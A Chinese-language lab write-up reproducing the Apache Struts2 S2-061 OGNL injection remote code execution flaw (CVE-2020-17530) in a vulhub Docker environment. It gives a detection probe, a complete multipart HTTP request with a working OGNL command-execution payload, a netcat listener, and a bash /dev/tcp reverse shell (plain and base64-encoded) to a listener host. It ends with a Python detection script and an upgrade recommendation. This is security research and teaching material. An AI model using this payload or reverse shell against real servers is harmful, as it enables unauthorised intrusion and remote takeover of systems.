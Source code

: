 # Struts2 S2-061 远程命令执行漏洞（CVE-2020-17530）复现

## 前言

Apache Struts2框架是一个用于开发Java EE网络应用程序的Web框架。Apache Struts于2020年12月08日披露 S2-061 Struts 远程代码执行漏洞(CVE-2020-17530)，在使用某些tag等情况下可能存在OGNL表达式注入漏洞，从而造成远程代码执行，风险极大，S2-061是对S2-059漏洞修复后的绕过。

影响版本：

Apache Struts 2.0.0 - 2.5.25

## 环境搭建

这里使用vulhub漏洞环境搭建

使用git克隆到本地

`git clone https://github.com/vulhub/vulhub.git`

![image-20221210152107512](https://static.sechelper.com/img/2022/12/10/f78ec3a5006cf16d3d55530fe816740d.png)

进入对应环境

`cd vulhub/struts2/s2-061`

![image-20221210152142885](https://static.sechelper.com/img/2022/12/10/de8b678d527059cf0b0a8a65243b8e82.png)

启动docker漏洞环境

`sudo docker-compose up -d`

![image-20221210152205091](https://static.sechelper.com/img/2022/12/10/e3e22b48e27c1e8d30db1e9368a02533.png)

访问对应地址，出现如下页面，环境搭建成功

![image-20221210153856655](https://static.sechelper.com/img/2022/12/10/8a75888e7cf2af787c396557a1aa2576.png)

## 复现过程

实现判断下是否存在漏洞，使用?id=%25{7*7}查看返回id的值是7\*7还是49，如果是47那么就说明进行了二次表达式解析，存在改漏洞

![image-20221210160031545](https://static.sechelper.com/img/2022/12/10/d8b32a865e6932a0addf59b48372f2f3.png)

这里id为49说明存在该漏洞。抓包修改为以下，这里的`#arglist.add("xx")`函数这里包含的值是你要执行的命令

```
POST /.action HTTP/1.1
Host: 192.168.52.128:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=node0i3sptalo62q6kw46qu49oxwn1.node0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 833

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"


%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ls")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![image-20221210161714309](https://static.sechelper.com/img/2022/12/10/338eec597d8fa257efd4577496e2012d.png)



已经可以执行我们的命令了，接下来反弹shell

在vps上监听3333端口：`nc -lvnp 3333`

编写反弹shell代码

`bash -i >& /dev/tcp/192.168.52.130/3333 0>&1`

反弹shell涉及到管道符问题要将命令进行base64编码

`bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUyLjEzMC8zMzMzIDA+JjE=}|{base64,-d}|{bash,-i}`

![image-20221210163917170](https://static.sechelper.com/img/2022/12/10/708410bc41bd59cb9858b1e646fe3da2.png)

![image-20221210164523698](https://static.sechelper.com/img/2022/12/10/4ed3988d0e2d8a3517f9f4a80cce40d5.png)

成功反弹出shell

检查POC

```python
import requests
import argparse
import os
def url():
		parser = argparse.ArgumentParser(description='S2-061  CVE-2020-17530')
		parser.add_argument('target_url',type=str,help='The target address,example: http://192.168.52.128:8080')
		args = parser.parse_args()
		global url
		url = args.target_url
		if url.startswith('http://') or url.startswith('https://'):
			pass
		else:
			print('请使用http://或者https://')
			os._exit(0)
		if url.endswith('/'):
			url = url[:-1]
		print("开始测试")
		return url
def poc():
	headers={
		'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100102 Firefox/107.0'
	
}
	vul_url = url + '/?id=%25{7*7}'
	try:
		text = requests.get(vul_url,headers=headers,timeout=10).text
		if '49' in text:
			print('[漏洞存在]')
		else:
			print('[漏洞不存在]')
	except:
		print('[发生错误]')
if __name__ == '__main__':
	url()
	poc()
```

![image-20221210170934924](https://static.sechelper.com/img/2022/12/10/824c6d602d069fc6a874c496ebc5c8e2.png)

## 修复建议

升级到 Struts 2.5.26 版本或更高版本
